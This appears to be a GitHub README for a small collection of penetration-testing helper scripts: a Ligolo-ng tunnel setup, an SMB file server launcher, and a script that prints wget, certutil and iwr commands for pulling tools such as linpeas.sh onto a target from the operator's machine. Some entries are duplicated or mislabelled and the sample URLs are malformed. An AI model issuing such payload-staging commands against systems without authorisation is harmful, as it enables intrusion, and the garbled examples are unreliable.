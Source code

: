 # PopScripts

## liggy
This script exists to automate the setup of the Ligolo-ng (https://github.com/nicocha30/ligolo-ng) proxy. It requires Ligolo to be in the /opt folder. It requires an IP range to set up a tunnel, but it will accept a specific IP range or a single IP and convert to the IP range of 0/24. 

Run `sudo chmod +x /opt/liggy/liggy.sh && ln -s /opt/liggy/liggy.sh /usr/local/bin/liggy` to be able to call it as liggy from any directory. 

## served
This script prints cerutil, iwr, and wget commands to be run on a remote target to download files from your machine. The default IP is your tun0 (-IP), the default port (-p) is 80, and the default file (-f) is `file`, but the script can be run with any of those flags. 

Run `sudo chmod +x /opt/liggy/liggy.sh && ln -s /opt/liggy/liggy.sh /usr/local/bin/liggy` to be able to call it as liggy from any directory. 

Ex: `served -p 443 -f linpeas.sh`
Output:
`wget http:{tun0}:443/linpeas.sh`
`certutil.exe -f -split -urlcache http:{tun0}:443/linpeas.sh -o linpeas.sh`
`iwr -uri http://{tun0]:443/linpeas.sh -o linpeas.sh`

## speedysmb

This script exists to automate the creation of an impacket-smbserver (https://github.com/fortra/impacket/blob/master/examples/smbserver.py) by requesting a username and password, and then printing the commands that need to be run on a remote machine to transfer files. 

Run sudo chmod +x /opt/speedysmb/speedysmb.sh && ln -s /opt/speedysmb/speedysmb.sh /usr/local/bin/speedysmb to be able to call it as speedysmb from any directory.

## liggy
This script exists to automate the setup of the Ligolo-ng (https://github.com/nicocha30/ligolo-ng) proxy. It requires Ligolo to be in the /opt folder. It requires an IP range to set up a tunnel, but it will accept a specific IP range or a single IP and convert to the IP range of 0/24. 

Run `sudo chmod +x /opt/liggy/liggy.sh && ln -s /opt/liggy/liggy.sh /usr/local/bin/liggy` to be able to call it as liggy from any directory. 


